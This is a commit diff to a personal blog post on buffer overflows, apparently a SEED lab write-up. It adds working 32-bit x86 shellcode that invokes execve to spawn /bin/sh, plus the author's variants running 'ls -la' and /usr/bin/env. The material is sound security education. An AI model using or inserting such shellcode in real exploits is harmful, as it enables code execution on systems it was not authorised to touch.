

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-08-01-buffer-overflow.md, in a window 1280 px wide and 900 px high, scrolled down 2006 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2808 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

Commit message:
update content

````diff
--- a/_posts/2023-08-01-buffer-overflow.md
+++ b/_posts/2023-08-01-buffer-overflow.md
@@ -89,7 +89,7 @@ EBX: this is used to store the first argument to the function
 ECX: this is used to store the second argument to the function
 EDX: this is used to store the third argument to the function
 
-So in the case of execve we have the function definition as
+So in the case of execve we have the function definition as:
 
 ```
 execve(const char *pathname, char *const _Nullable argv[],
@@ -98,9 +98,133 @@ execve(const char *pathname, char *const _Nullable argv[],
 
 This means EAX would store the execve function itself (execve has a system call number of 11), EBX would store the pathname (which in this case is /bin/sh), ECX would store argv[] (which includes the pathname, the arguments, and a null terminator), and EDX would store envp[] (which is the environment variables).
 
+<details>
+<summary>Seed lab code</summary>
+<pre>
+section .text
+  global _start
+    _start:
+      ; Store the argument string on stack
+      xor eax, eax
+      push eax ; Use 0 to terminate the string
+      push "//sh" ;
+      push "/bin"
+      mov ebx, esp ; Get the string address
+      ; Construct the argument array argv[]
+      push eax ; argv[1] = 0
+      push ebx ; argv[0] points to the cmd string
+      mov ecx, esp ; Get the address of argv[]
+      ; For environment variable
+      xor edx, edx ; No env variable
+      ; Invoke execve()
+      xor eax, eax ; eax = 0x00000000
+      mov al, 0x0b ; eax = 0x0000000b
+      int 0x80
+</pre>
+</details>
 
+<details>
+<summary>My solution to <code>/bin/sh -c "ls -la"</code></summary>
+<pre>
+section .text
+  global _start
+    _start:
+      ; Store the "ls -la" string on stack
+      mov edx, "la  "
+      shl edx, 16
+      shr edx, 16
+      push edx
+      push "ls -"
+      mov edx, esp     ; Get the string address for "ls -la"
 
+      ; Store the "-c" string on stack
+      mov ecx, "-c  "
+      shl ecx, 16
+      shr ecx, 16
+      push ecx
+      mov ecx, esp     ; Get the string address for "-c"
 
-## include book code
+      ; Store the "/bin/sh" string on stack
+      mov ebx, "/sh "
+      shl ebx, 8
+      shr ebx, 8
+      push ebx
+      push "/bin"
+      mov  ebx, esp     ; Get the string address for "/bin/sh"
 
-## include my solution
+      ; Construct the argument array argv[]
+      xor eax, eax      ; ensure eax = 0x00000000
+      push eax          ; argv[3] = 0
+      push edx          ; argv[2] points to "ls -la"
+      push ecx          ; argv[1] points to "-c"
+      push ebx          ; argv[0] points to "/bin/sh"
+      mov  ecx, esp     ; Get the address of argv[]
+
+      ; For environment variable
+      xor  edx, edx     ; No env variables
+
+      ; Invoke execve()
+      xor  eax, eax     ; eax = 0x00000000
+      mov   al, 0x0b    ; eax = 0x0000000b
+      int 0x80
+</pre>
+</details>
+
+<details>
+<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables)</summary>
+<pre>
+section .text
+  global _start
+    _start:
+      ; Store the environment variable string on the stack
+      xor eax, eax
+      push eax
+      push "1234"
+      push "aaa="
+      mov eax, esp      ; Get the string address for "aaa=1234"
+
+      xor ebx, ebx
+      push ebx
+      push "5678"
+      push "bbb="
+      mov ebx, esp      ; Get the string address for "bbb=5678"
+
+      mov ecx, "4   "
+      shl ecx, 24
+      shr ecx, 24
+      push ecx
+      push "=123"
+      push "cccc"
+      mov ecx, esp      ; Get the string address for "cccc=1234"
+
+      ; For environment variable
+      xor  edx, edx     ; edx = 0
+      push edx          ; argv[3] = 0
+      push eax          ; argv[2] points to "aaa=1234"
+      push ebx          ; argv[1] points to "bbb=5678"
+      push ecx          ; argv[0] points to "cccc=1234"
+      mov edx, esp      ; Get the address of env[]
+
+      ; Store the argument string on stack
+      xor  eax, eax
+      push eax          ; Use 0 to terminate the string
+      push "/env"
+      push "/bin"
+      push "/usr"
+      mov  ebx, esp     ; Get the string address
+
+      ; Construct the argument array argv[]
+      push eax          ; argv[1] = 0
+      push ebx          ; argv[0] points "/usr/bin/env"
+      mov  ecx, esp     ; Get the address of argv[]
+
+      ; Invoke execve()
+      xor  eax, eax     ; eax = 0x00000000
+      mov   al, 0x0b    ; eax = 0x0000000b
+      int 0x80
+</pre>
+</details>
+
+#### Using Code Segment
+
+Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.
````
